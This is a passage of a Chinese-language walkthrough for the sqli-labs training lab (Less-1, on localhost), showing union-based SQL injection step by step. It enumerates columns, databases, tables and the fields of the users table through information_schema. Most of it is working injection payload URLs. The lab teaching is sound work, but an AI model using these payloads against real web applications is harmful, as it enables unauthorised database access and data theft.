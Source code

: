 ......

```
http://localhost/sqlilabs/Less-1/?id=1' order by 4--+  #对第四列排序，报错，表明没有第四列
```

![image-20201128231715638](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128231715638.png)

即有3个字段

**4.报显示位，id设为查询不到的数据（使用union联合查询，前后的表中要有相同的字段数，然后让左边查询无结果，右边有结果）**

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,2,3--+
```

![image-20201128232240296](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128232240296.png)

**5.查询相关信息**

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,database(),3--+  #查询当前数据库
```

![image-20201128233025336](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128233025336.png)

其他信息 user(),version()...

**6.查询具体信息**

1）查询所有库

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+
```

![image-20201128234024839](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128234024839.png)

2）查询当前库的所有表

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

![image-20201128234247143](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201128234247143.png)

3）查询表中字段

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+
```

引号内 users 转换为十六进制亦可

```
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273--+
```
